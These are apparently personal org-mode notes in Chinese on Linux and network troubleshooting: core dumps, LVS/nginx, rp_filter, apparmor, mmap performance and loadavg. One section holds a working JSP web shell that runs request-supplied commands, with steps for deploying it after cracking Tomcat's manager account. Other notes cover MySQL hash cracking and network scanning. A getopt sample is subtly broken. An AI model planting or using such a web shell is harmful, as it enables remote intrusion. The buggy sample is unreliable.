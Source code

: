 #+OPTIONS: "\n:t"

[[file:record_syncookie.org][* syncookie问题]]
* 获取token
* coredump被截断
  一个同事找我，看
  #gdb -c xxx.core
  显示
  BFD: Warning: /home/corefile/core.aaaservice.8689.1374747488 is truncated: expected core file size >= 6965805056, found: 1092853760.
  coredump文件被截断了。
#+begin_example
  aaa-a:/home/corefile # ulimit -a
  core file size          (blocks, -c) unlimited
  data seg size           (kbytes, -d) unlimited
  scheduling priority             (-e) 0
  file size               (blocks, -f) unlimited
  pending signals                 (-i) 63812
  max locked memory       (kbytes, -l) 64
  max memory size         (kbytes, -m) 6952488
  open files                      (-n) 1024
  pipe size            (512 bytes, -p) 8
  POSIX message queues     (bytes, -q) 819200
  real-time priority              (-r) 0
  stack size              (kbytes, -s) 8192
  cpu time               (seconds, -t) unlimited
  max user processes              (-u) 63812
  virtual memory          (kbytes, -v) 13258640
  file locks                      (-x) unlimited
#+end_example
  挺奇怪
  有看了/etc/security/limits.conf:
#+begin_example
        #-----------------------------------------------------------------
        # the following item is specially used by hitv  system
        # added by hitv_system_env_init.sh
        # date : Fri Mar 30 06:05:35 GMT 2012
        #-----------------------------------------------------------------
  @hitv    soft    stack    4096
  @hitv    hard    stack    4096
  @hitv    soft    nofile    10240
  @hitv    hard    nofile    65536

  * soft core unlimited
  * hard core unlimited
#+end_example
最后一行我加的。
但是，core了以后，还是被截断。

后来才发现他是以hitv用户运行的程序，
而该用户的core大小是受限的。

可以通过这个查看某个进程的limits
cat /proc/${pid}/limits
* LVS和nginx引发的问题
  有人反映aaa/sigon请求超时。
  我写的小程序请求几个相关的URL，有几分之几的失败率。
  而另外/cam/user/getxxxx这个URL也超时。
  我猜测可能其他的URL也存在问题，不单是反映的aaa/sigon请求慢。
  于是在请求的URL后加上"&myseq=1"
  其中myseq的序号不停增加。
  看aaaservice日志和access.log日志
  发现access.log日志中收到的myseq序号有丢失的情况，
  而从nginx到aaaservice，没有丢包。
  
  nginx共有三台：nginx-a、ngnix-b、nginx-c
  其中nginx-c中 我发的特殊请求这种格式"myseq=", 一个都没有收到。
  

  怀疑是lvs的问题，又担心是测试机器到nginx之间网络问题，不确定。
  后来通过ipvsadmin -ln
  看
        ActiveConn  InactiveConn
  131    75          1000 
  141    945         1234
  145    879         1334

  ngnix-c上负载严重不均衡。
  

  想排除网络。
  于是在生产环境的局域网中一台机器中
  请求这URL: http://132.103.18.129:8080/cam/user/getxxxx?xxxx
  发现还是经常无影响。

  后来我想进一步确实问题，跟nginx转发无法，也就是与aaa无关。
  请求这个URL: http://132.103.18.129:8080/none
  故意让ngnix直接返回404，不启动转发功能，不与upstream server交互。
  发现还是经常连接不上。
  
  后来我想直接连接ngnix-a的ip
  http://132.103.18.141:8080/none
  很快响应。
  其他两台ngnix也同样测试了，没有问题。

  现在问题与LVS关系比较大了。

  但是没有直接证据，证明问题。
  Tony提议，抓包，
  在一台机器D上运行lwp-request -m GET http://132.103.18.129:8080/none
  
  在lvs上运行tcpdump -i eth0 tcp and \( src hostD-ip or dst hostD-ip \)
  抓数据。发现出问题时，确实有不断想机器D的syn请求重传。

  在ngnix-c上tcpdump -i tunl0 src hostD-ip
           tcpdump -i eth1 dst hostD-ip
  发现有收到lvs的syn请求，但是没有回应。

  后来重启了ngnix-c，问题消失。

  tony说可能是rp_filter的问题。

The rp_filter can reject incoming packets if their source address doesn’t match the network interface that they’re arriving on, which helps to prevent IP spoofing. Turning this on, however, has its consequences: If your host has several IP addresses on different interfaces, or if your single interface has multiple IP addresses on it, you’ll find that your kernel may end up rejecting valid traffic. It’s also important to note that even if you do not enable the rp_filter, protection against broadcast spoofing is always on. Also, the protection it provides is only against spoofed internal addresses; external addresses can still be spoofed.. By default, it is disabled. To enable it, run the following:


rp_filter - INTEGER

 0 - No source validation.
 1 - Strict mode as defined in RFC3704 Strict Reverse Path
 Each incoming packet is tested against the FIB and if the interface
 is not the best reverse path the packet check will fail.
 By default failed packets are discarded.
 2 - Loose mode as defined in RFC3704 Loose Reverse Path
 Each incoming packet's source address is also tested against the FIB
 and if the source address is not reachable via any interface
 the packet check will fail.
Current recommended practice in RFC3704 is to enable strict mode
 to prevent IP spoofing from DDos attacks. If using asymmetric routing
 or other complicated routing, then loose mode is recommended.
The max value from conf/{all,interface}/rp_filter is used
 when doing source validation on the {interface}.
Default value is 0　based our os. Note that some distributions enable it
 in startup scripts.


 检查流入本机的 IP 地址是否合法，是否从对应接口的路由进来，是否是最佳路由。

设置方法：

系统配置文件
1. /etc/sysctl.conf


把 net.ipv4.conf.all.rp_filter和net.ipv4.conf.default.rp_filter设为0即可
net.ipv4.conf.default.rp_filter = 0
net.ipv4.conf.all.rp_filter = 0
系统启动后，会自动加载这个配置文件，内核会使用这个变量。

2. 命令行
显示一个内核变量 sysctl net.ipv4.conf.all.rp_filter
设置一个内核变量 sysctl -w net.ipv4.conf.all.rp_filter=0
设置完后，会更新内核（实时的内存）中的变量的值，但不会修改sysctl.conf的值

3. 使用/proc文件系统
查看 cat /proc/sys/net/ipv4/conf/all/rp_filter
设置 echo "0">/proc/sys/net/ipv4/conf/all/rp_filter

* nmap

使用nmap扫描生产网络。

* tomcat webshell
  使用建立web工程jsphack，
  在工程中加入一个cmd.jsp文件
  在jsphack目录下运行jar cvf *.* jsphack.war
  
  破解tomcat管理账户后，可以上传war工程。
  
  然后运行cmd.jsp spy.jsp可以运行远程机器上的命令，也可以获取文件。

#+begin_example
<%@ page contentType="text/html; charset=gb2312"%> 
<%@page import="java.io.*"%>
<%@page import="java.util.*"%>

<% 
String cmd = request.getParameter("cmd"); 
String output = ""; 

if(cmd != null) { 
  String s = null; 
  try { 
    Process p = Runtime.getRuntime().exec(cmd); 
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); 
    while((s = sI.readLine()) != null) { 
    output += s+"\n"; 
    } 
  } 
  catch(IOException e) { 
    e.printStackTrace(); 
  } 
}
output = output.replace("&","&amp;").replace("<","&lt;").replace(">","&gt;");
%> 
<form method="post" action="cmd.jsp"> 
<input name="cmd" type=text> 
<input type=submit value="Run"> 
</form> 
<textarea name="hack" rows="40" cols="100"> 
<%=output%> 
</textarea>
#+end_example
    
* mysql 密码破解
  mysql 密码信息放在user.MYD文件中。
  存放的是密码的SHA或者MD5的hashcode

  可以使用工具cain破解。

* 海信社区后台
http://123.103.18.138:8080/hisadmin/smarttv/login.do
* rpm segment fault
  原因是stack 值太少
  rpm -ivh xxx.rpm
  segment fault

  linux-edr0:~ # ulimit -a | grep stack
  stack size              (kbytes, -s) 256

  # ulimit -s 8196
  然后运行rpm安装程序，正常。

** TODO 怎么能看出问题是由于stack设置过少导致的呢？
* ngnix TIME_WAIT 过多
ngx_http_finalize_connection
* named启动不了
#+begin_example
linux-152:~ # service named start
Starting name server BIND /usr/sbin/named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
startproc:  exit status of parent of /usr/sbin/named: 127
                                                                     failed
linux-152:~ # ltrace
#+end_example
在suse上有类似SELinux的机制apparmor
这个问题看起来像apparmor引起的。

查找libz.so.1，发现/lib目录有一个。
编辑/etc/apparmor.d/usr.sbin.named:
加入一行：
/lib/* rm

然后运行：
#+begin_example
linux-152# aa-genprof named
[(S)can system log for AppArmor events] / (F)inish
Reading log entries from /var/log/audit/audit.log.
Updating AppArmor profiles in /etc/apparmor.d.
Profiling: /usr/sbin/named
#+end_example
生成named的新的apparmor配置

然后再次service named start，仍然不行。

使用strace
#+begin_example
linux-152# strace named
...
open("/usr/local/lib/libz.so.1", O_RDONLY) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@!\0\0\0\0\0\0"..., 832)                                                                                                                            = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=109107, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f6                                                                                                                           884c48000
mmap(NULL, 2195952, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = -1 E                                                                                                                           ACCES (Permission denied)
close(3)                                = 0
writev(2, [{"named", 5}, {": ", 2}, {"error while loading shared libra"..., 36},
           {": ", 2}, {"libz.so.1", 9}, {": ", 2}, {"failed to map segment from share"..., 40}, 
           {": ", 2}, {"Permission denied", 17}, {"\n", 1}], 
           10named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
) = 116
exit_group(127)         
#+end_example
可以看到实际使用时/usr/local/lib/libz.so.1不是/lib目录下的。
再次修改/etc/apparmor.d/usr.sbin.named，再运行aa-genprof named.
再启动named，成功。

* ifconfig shows dropped rx packets

This document (7007165) is provided subject to the disclaimer at the end of this document. 
Environment
 SUSE Linux Enterprise Server 11 Service Pack 2
Situation
 ifconfig shows dropped rx packets
After updating to SLES 11 SP2 packets are being dropped
Dropped counter incrementing 
rx_dropped counter is incrementing

Customers have reported seeing dropped packets when examining statistics on their network card, bonds, or virtual interfaces.  


Resolution
 Working as designed.
Cause
 Beginning with kernel 2.6.37, it has been changed the meaning of dropped packet count. Before, dropped packets was most likely due to an error. Now, the rx_dropped counter shows statistics for dropped frames because of:

Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

If any frames meet those conditions, they are dropped before the protocol stack and the rx_dropped counter is incremented.
Additional Information
 Care should be taken to confirm that frames are not being legitimately dropped.  A quick way to test this (WARNING: this test does not work for bonding interfaces) is to start a packet capture:

host:~# tcpdump

And then watching the rx_dropped counter.  If it stops incrementing while the tcpdump is running; then it is more than likely showing drops because of the reasons listed earlier.  If frames continue to be dropped while running tcpdump, investigation should take place to determine root cause.

This effect is seen starting from SLES 11 SP2, as it utilizes a 3.x kernel series. Previous SLES versions do not exhibit it (that are using kernels prior to 2.6.37)

Additional information can be found by researching commit # caf586e5

原因：dropped，现在加入了因为：
Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

这几个原因，丢包的计数，而之前rx_dropped计数是属于硬件丢包。

运行tcpdump时，所有的包都会被上层接受，所以dropped计数不再增加。


运行命令，查看内核注册的支持的protocol
linux-17:~ # cat /proc/net/ptype
Type Device      Function
0800          ip_rcv+0x0/0x2f0
0011          llc_rcv+0x0/0x350 [llc]
0004          llc_rcv+0x0/0x350 [llc]
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]

运行tcpdump 抓包是，
再次查看
linux-17:~ # cat /proc/net/ptype
Type Device      Function
ALL  eth0     tpacket_rcv+0x0/0x630 [af_packet]
0800          ip_rcv+0x0/0x2f0
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]



现场使用tcpdump抓包，发现是有未注册的protocol

* ifconfig /proc/net/dev
* sysrq
  开启sysreq
 # sysctl -w kernel.sysrq=1 
 kernel.sysrq = 1 
 # cat /proc/sys/kernel/sysrq 
 1

Alt+SysRq+H 列出帮助
*
* sqlite3
  linux下可以使用命令sqlite3 xxx.db
  操作数据库文件

* python signal
  fcntl.fcntl(fd, fcntl.F_SETSIG, 0)
  flags = fcntl.DN_MODIFY | fcntl.DN_DELETE | fcntl.DN_CREATE | fcntl.DN_MULTISHOT
  # ctypes.c_int for fcntl.DN_MULTISHOT overflow in some machine
  fcntl.fcntl(fd, fcntl.F_NOTIFY, ctypes.c_int(flags).value)

  signal.signal(signal.SIGIO, handler)

  def handler(signum, frame):
      queue.put_nowait(1)


  发现handler经常就不起作用，最后发现应该python:Queue的api不是可重入的
  semphore 也不可重入
* atoll 返回结果溢出
  同事写一个程序，简化后如下：
#+begin_src c
 #include <stdio.h>
int main(int argc, char** argv)
{
  long long num = 0;
  num = atoll("100000000000");
  printf("num=%lld", num);
  return 0;
}
#+end_src
运行结果num=1215752192 


1215752192 = 0x4876E800
1000000000 = 0x174876E800
显然atoll返回的结果是32位的。
这个程序怎么能有问题。
后来换成strtoll，结果还是一样。

后来我想到突然想到可能是使用atoll()，没用include其头文件，导致c默认使用int作为返回值。
后来加上#include<stdlib.h>，
结果就正确了。

我对比了修改前后的编译结果，希望发现差异。
最后对比发现，出问题是仅多了一条指令ctlq

 # objdump -d main
00000000040058c <main>:
  40058c:	55                   	push   %rbp
  40058d:	48 89 e5             	mov    %rsp,%rbp
  400590:	48 83 ec 20          	sub    $0x20,%rsp
  400594:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400597:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40059b:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4005a2:	00 
  4005a3:	bf d4 06 40 00       	mov    $0x4006d4,%edi
  4005a8:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ad:	e8 d6 fe ff ff       	callq  400488 <atoll@plt>
  4005b2:	48 98                	cltq   
  4005b4:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4005b8:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  4005bc:	bf e1 06 40 00       	mov    $0x4006e1,%edi
  4005c1:	b8 00 00 00 00       	mov    $0x0,%eax
  4005c6:	e8 9d fe ff ff       	callq  400468 <printf@plt>
  4005cb:	b8 00 00 00 00       	mov    $0x0,%eax
  4005d0:	c9                   	leaveq 
  4005d1:	c3                   	retq   


  使用gdb调试，运行ctlq前，rax=0x174876e800,还是正确的，
  之后就切成32位。
  # gdb main
  (gdb) b *0x4005b2
  Breakpoint 1 at 0x4005b2
  (gdb) r
  Breakpoint 1, 0x00000000004005b2 in main ()
  (gdb) x /i $pc
  => 0x4005b2 <main+38>:  cltq
  (gdb) p /x $rax
  $1 = 0x174876e800
  (gdb) si
  0x00000000004005b4 in main ()
  (gdb) p /x $rax
  $2 = 0x4876e800
  (gdb)


  cltq指令
  cltq R[%rax ] <- SignExtend(R[%eax]) Convert %eax to quad word，将$eax转化为4字，不就是RAX了嘛，切，
  cltq是有符号数的扩展，如果$eax的最高的32位为1的话，RAX的高32扩展后全为1，相反如果$EAX的高位为0的话，则扩展出来后全为0
* CLOSE_WAIT
  被动关闭端，收到FIN后，如果不关闭socket，那么将socket永久处于CLOSE_WAIT状态。
* server 不accept
  server 监听一个端口（server backlog = 128)
  client 不断向server建立连接。
  当建立链接数超过128后，server端ESTAB状态的链接不再增加，而SYN-RECV状态的链接开始增多。
  此是client端的ESTAB状态一直增加。
  
  从实验可以看到，当连接数超过128后，Server仍然向client发送syn/ack，但是syn-recv状态定时器开启，重试发送5次后超时。放弃链接。
  而client端确对此一无所知，还认为是合法链接。
  
* 写mmap内存变慢的原因
  同事写的程序在线上遇到性能问题，
  拉了一堆人一起分析原因。最后大家一致认定是由于访问锁把速度拉下慢了。
  但是通过看代码也没有看到锁用不当的地方。
  最后人们终于发现是一处代码将一个文件mmap了，再mmap的内存中存放锁！！
  就是由于访问锁的内存操作慢，所以才导致了整体性能下降。
  
  tony将频繁些磁盘的jdb2内核线程停掉，再进行测试，问题就没有了。
  
  后来我写了一个测试程序：
#+begin_src c
#include <sys/mman.h> /* for mmap and munmap */
#include <sys/types.h> /* for open */
#include <sys/stat.h> /* for open */
#include <fcntl.h>     /* for open */
#include <unistd.h>    /* for lseek and write */
#include <stdio.h>
#include <string.h> /* for memcpy */
#include <sys/mman.h>

int main(int argc, char **argv)

{
    int fd;
    char *mapped_mem, * p;
    int flength = 1024;
    void * start_addr = 0;
    struct timeval tpstart,tpend;
    double timeuse;
    int count = 0;
    int rc;
    fd = open(argv[1], O_RDWR | O_CREAT, S_IRUSR | S_IWUSR);
    flength = lseek(fd, 1, SEEK_END);
    write(fd, "\0", 1); /* 在文件最后添加一个空字符，以便下面printf正常工作 */
    lseek(fd, 0, SEEK_SET);
    //start_addr = 0x80000;
    mapped_mem = mmap(NULL, flength, PROT_READ|PROT_WRITE,
                      MAP_SHARED,
                      fd, 0);
    rc = mlock(mapped_mem, flength);
    printf("mlock ------------------rc=%d\n", rc);
    madvise(mapped_mem, flength, MADV_WILLNEED);
    while(1) {
        char buf[256];
        printf("------------------------------------------\n");
        gettimeofday(&tpstart,NULL);

        strcpy(buf, mapped_mem);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("read processor time is %lf s\n",timeuse);

        printf("%s\n", buf);
        sprintf(buf,"linux%d", count++);

        gettimeofday(&tpstart,NULL);

        strcpy(mapped_mem, buf);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("write processor time is %lf s\n",timeuse);

        sleep(1);
    }
    close(fd);
    munmap(mapped_mem, flength);
    return 0;

}

#+end_src

 运行: testmap test.txt

 同时在另一个窗口，运行fsync test.txt
 发现每次运行fsync，testmap程序花在写的时间就增加很多。
 
 我就疑惑为什么，page cache不会怎么快就被换出去啊，但是写时间增加，应该是由于触发page fault。
 但是为什么呢？？
 这样刷新文件的writeback操作会影响写内存的操作？

 原来：
 在write_cache_pages里，lock_page以后会调用clear_page_dirty_io(page)
 然后：
 --> clear_page_dirty_for_io(page)
 --> page_mkclean(page)
 --> page_mkclean_file(page)
 --> page_mkclean_one(page)

 而page_mkclean_one(page)，里面会执行pte_wrprotect(entry),
 也就是置pte为写保护。
 当应用写这个page时，就会碰到写保护，触发do_page_fault,即使这个page已经在内存中了。
 --> do_page_fault
 --> handle_mm_fault
 --> handle_pte_fault

 handle_pte_fault 一段代码：
   if(flags & FAULT_FLAGS_WRITE) {
      if(!pte_write(entry))
          return do_wp_page(mm, vma, address,
                    pte, pmd, ptl, entry);
       entry = pte_mkdirty(entry);
   }
 
而do_wp_page,会对可写且共享的vma里的page，依次调用page_mkwrite。

page_mkwrite会lock_page
*  ntoa
写一个程序测试dns
#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <netdb.h>
#include <sys/types.h>
#include <netinet/in.h>

int main(int argc, char *argv[])
{
    struct hostent *h;

    if (argc != 2) {
        fprintf(stderr,"usage: getip address\n");
        exit(1);
    }
    sethostent(1);

    if ((h=gethostbyname(argv[1])) == NULL) {
        herror("gethostbyname");
        exit(1);
    }

    printf("Host name : %s\n", h->h_name);
    printf("IP Address : %s\n",inet_ntoa(*((struct in_addr *)h->h_addr)));

    return 0;
}

#+end_src

最后一个printf总崩掉，原因，inet_ntoa没有引用头文件，返回int型了。而测试的机器是64位的。
char * 和 int位数不同。

* getopt

#+begin_src c
     #include <ctype.h>
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     
     int
     main (int argc, char **argv)
     {
       int aflag = 0;
       int bflag = 0;
       char *cvalue = NULL;
       int index;
       int c;
     
       opterr = 0;
     
       while ((c = getopt (argc, argv, "abc:d::")) != -1)
         switch (c)
           {
           case 'a':
             aflag = 1;
             break;
           case 'b':
             bflag = 1;
             break;
           case 'c':
             cvalue = optarg;
             break;
           case '?':
             if (optopt == 'c')
               fprintf (stderr, "Option -%c requires an argument.\n", optopt);
             else if (isprint (optopt))
               fprintf (stderr, "Unknown option `-%c'.\n", optopt);
             else
               fprintf (stderr,
                        "Unknown option character `\\x%x'.\n",
                        optopt);
             return 1;
           case 'd':
             dvalue = optarg;

           default:
             abort ();
           }
     
       printf ("aflag = %d, bflag = %d, cvalue = %s, dvalue = %s\n",
               aflag, bflag, cvalue, dvalue);
     
       for (index = optind; index < argc; index++)
         printf ("Non-option argument %s\n", argv[index]);
       return 0;
     }

#+end_src

* netstat 原理
  读取/proc文件系统
  
  /proc/net/tcp -- TCP socket information

 tcp4_seq_show() -> get_tcp4_sock()
关于其中rx_queue的含义：
#+begin_src c
	if (sk->sk_state == TCP_LISTEN)
		rx_queue = sk->sk_ack_backlog;
	else
		/*
		 * because we dont lock socket, we might find a transient negative value
		 */
		rx_queue = max_t(int, tp->rcv_nxt - tp->copied_seq, 0);
#+end_src
我们可以看出
对于处于LISTEN状态的的链接，rx_queue是半链接队列的长度。
处于其他状态的，rx_queue是尚未被用户态处理的数据字节数

  /proc/net/udp -- UDP socket information

* ipvs
ip_vs_schedule() -> dest = svc->scheduler->schedule(svc, skb);
->ip_vs_rr_schedule()

	do {
		/* skip list head */
		if (q == &svc->destinations) {
			q = q->next;
			continue;
		}

		dest = list_entry(q, struct ip_vs_dest, n_list);
		if (!(dest->flags & IP_VS_DEST_F_OVERLOAD) &&
		    atomic_read(&dest->weight) > 0)
			/* HIT */
			goto out;
		q = q->next;
	} while (q != p);


而IP_VS_DEST_F_OVERLOAD，是由下面代码设置的
ip_vs_bind_dest()
	if (dest->u_threshold != 0 &&
	    ip_vs_dest_totalconns(dest) >= dest->u_threshold)
		dest->flags |= IP_VS_DEST_F_OVERLOAD;

* strncpy strncat snprintf
char *strncpy(char *dest, const char *src, size_t n);
最多从src中拷贝n个字符到dest。如果src的大小小于n，那么dest剩下的部分将被填0；
如果src的大小大于等于n，那么dest剩下的部分不会被填0，于是dest将不会以0结束。

#+begin_src
           char*
           strncpy(char *dest, const char *src, size_t n){
               size_t i;

               for (i = 0 ; i < n && src[i] != '\0' ; i++)
                   dest[i] = src[i];
               for ( ; i < n ; i++)
                   dest[i] = '\0';

               return dest;
           }
#+end_src
char *strncat(char *dest, const char *src, size_t n);
最多从源中拷贝n个字符到目标串中，并在后面加一个0；也就是说，最多会有n+1个字符被写进dest。如果dest的容量为n，那么将会dest将会溢出。


int snprintf(char *str, size_t size, const char *format, ...);
最多从源串中拷贝size－1个字符到目标串中，然后再在后面加一个0。所以如果目标串的大小为size的话，将不会溢出。
所以，字符串拷贝，最好用snprintf。

* Loadavg浅述 
Loadavg浅述 
http://kernel.taobao.org/index.php/Loadavg%E9%97%AE%E9%A2%98%E5%88%86%E6%9E%90
cat /proc/loadavg可以看到当前系统的load 
$ cat /proc/loadavg 
0.01 0.02 0.05 2/317 26207 
前面三个值分别对应系统当前1分钟、5分钟、15分钟内的平均load。load用于反映当前系统的负载情况
，对于16核的系统，如果每个核上cpu利用率为30%，则在不存在uninterruptible进程的情况下，系统load应该维持在4.8左右。
对16核系统，如果load维持在16左右，在不存在uninterrptible进程的情况下，意味着系统CPU几乎不存在空闲状态，利用率接近于100%。
结合iowait、vmstat和loadavg可以分析出系统当前的整体负载，各部分负载分布情况。 

Loadavg读取 

在内核中/proc/loadavg是通过load_read_proc来读取相应数据，下面首先来看一下load_read_proc的实现： 
fs/proc/proc_misc.c
#+begin_src c
static int loadavg_read_proc(char *page, char **start, off_t off, 
                                 int count, int *eof, void *data) 
{ 
        int a, b, c; 
        int len; 

        a = avenrun[0] + (FIXED_1/200); 
        b = avenrun[1] + (FIXED_1/200); 
        c = avenrun[2] + (FIXED_1/200); 
        len = sprintf(page,"%d.%02d %d.%02d %d.%02d %ld/%d %d\n", 
                LOAD_INT(a), LOAD_FRAC(a), 
                LOAD_INT(b), LOAD_FRAC(b), 
                LOAD_INT(c), LOAD_FRAC(c), 
                nr_running(), nr_threads, last_pid); 
        return proc_calc_metrics(page, start, off, count, eof, len); 
}
#+end_src

几个宏定义如下： 
#+begin_src c
 #define FSHIFT          11              /* nr of bits of precision */ 
 #define FIXED_1         (1<<FSHIFT)     /* 1.0 as fixed-point */ 
 #define LOAD_INT(x) ((x) >> FSHIFT) 
 #define LOAD_FRAC(x) LOAD_INT(((x) & (FIXED_1-1)) * 100)
#+end_src

根据输出格式，LOAD_INT对应计算的是load的整数部分，LOAD_FRAC计算的是load的小数部分。 
将a=avenrun[0] + (FIXED_1/200）带入整数部分和小数部分计算可得： 
#+begin_example
LOAD_INT(a) = avenrun[0]/(2^11) + 1/200
LOAD_FRAC(a) = ((avenrun[0]%(2^11) + 2^11/200) * 100) / (2^11)
             = (((avenrun[0]%(2^11)) * 100 + 2^10) / (2^11)
             = ((avenrun[0]%(2^11) * 100) / (2^11) +  
#+end_example

由上述计算结果可以看出，FIXED_1/200在这里是用于小数部分第三位的四舍五入，由于小数部分只取前两位，第三位如果大于5，则进一位，否则直接舍去。 

临时变量a/b/c的低11位存放的为load的小数部分值，第11位开始的高位存放的为load整数部分。因此可以得到a=load(1min) * 2^11 
因此有: load(1min) * 2^11 = avenrun[0] + 2^11 / 200 
进而推导出： load(1min)=avenrun[0]/(2^11) + 1/200 
忽略用于小数部分第3位四舍五入的1/200，可以得到load(1min)=avenrun[0] / 2^11，即： 
avenrun[0] = load(1min) * 2^11 

avenrun是个陌生的量，这个变量是如何计算的，和系统运行进程、cpu之间的关系如何，在第二阶段进行分析。 

Loadavg和进程之间的关系 

内核将load的计算和load的查看进行了分离，avenrun就是用于连接load计算和load查看的桥梁。 
下面开始分析通过avenrun进一步分析系统load的计算。 
avenrun数组是在calc_load中进行更新 
kernel/timer.c
#+begin_src c
 /* 
 * calc_load - given tick count, update the avenrun load estimates. 
 * This is called while holding a write_lock on xtime_lock. 
 */ 
static inline void calc_load(unsigned long ticks) 
{ 
        unsigned long active_tasks; /* fixed-point */ 
        static int count = LOAD_FREQ;  
        count -= ticks; 
        if (count < 0) { 
                count += LOAD_FREQ; 
                active_tasks = count_active_tasks(); 
                CALC_LOAD(avenrun[0], EXP_1, active_tasks); 
                CALC_LOAD(avenrun[1], EXP_5, active_tasks); 
                CALC_LOAD(avenrun[2], EXP_15, active_tasks); 
        } 
}
static unsigned long count_active_tasks(void) 
{ 
        return nr_active() * FIXED_1; 
}
#+end_src
 #define LOAD_FREQ       (5*HZ)          /* 5 sec intervals */ 
 #define EXP_1           1884            /* 1/exp(5sec/1min) as fixed-point */ 
 #define EXP_5           2014            /* 1/exp(5sec/5min) */ 
 #define EXP_15          2037            /* 1/exp(5sec/15min) */


calc_load在每个tick都会执行一次，每个LOAD_FREQ（5s）周期执行一次avenrun的更新。 
active_tasks为系统中当前贡献load的task数nr_active乘于FIXED_1，用于计算avenrun。宏CALC_LOAD定义如下： 
 #define CALC_LOAD(load,exp,n) \ 
       load *= exp; \ 
       load += n*(FIXED_1-exp); \ 
       load >>= FSHIFT;


用avenrun(t-1)和avenrun(t)分别表示上一次计算的avenrun和本次计算的avenrun，则根据CALC_LOAD宏可以得到如下计算： 
avenrun(t)=(avenrun(t-1) * EXP_N + nr_active * FIXED_1*(FIXED_1 – EXP_N)) / FIXED_1
          = avenrun(t-1) + (nr_active*FIXED_1 – avenrun(t-1)) * (FIXED_1 -EXP_N) / FIXED_1


推导出： 
avenrun(t) – avenrun(t-1) = (nr_active*FIXED_1 – avenrun(t-1)) * (FIXED_1 – EXP_N) / FIXED_1


将第一阶段推导的结果代入上式，可得： 
(load(t) – load(t-1)) * FIXED_1 = (nr_active – load(t-1)) * (FIXED_1 – EXP_N)


进一步得到nr_active变化和load变化之间的关系式： 

load(t) – load(t-1) = (nr_active – load(t-1)) * (FIXED_1 – EXP_N) / FIXED_1 

这个式子可以反映的内容包含如下两点： 
1）当nr_active为常数时，load会不断的趋近于nr_active，趋近速率由快逐渐变缓 
2）nr_active的变化反映在load的变化上是被降级了的，系统突然间增加10个进程， 
1分钟load的变化每次只能够有不到1的增加（这个也就是权重的的分配）。 

另外也可以通过将式子简化为： 

load(t)= load(t-1) * EXP_N / FIXED_1 + nr_active * (1 - EXP_N/FIXED_1)  

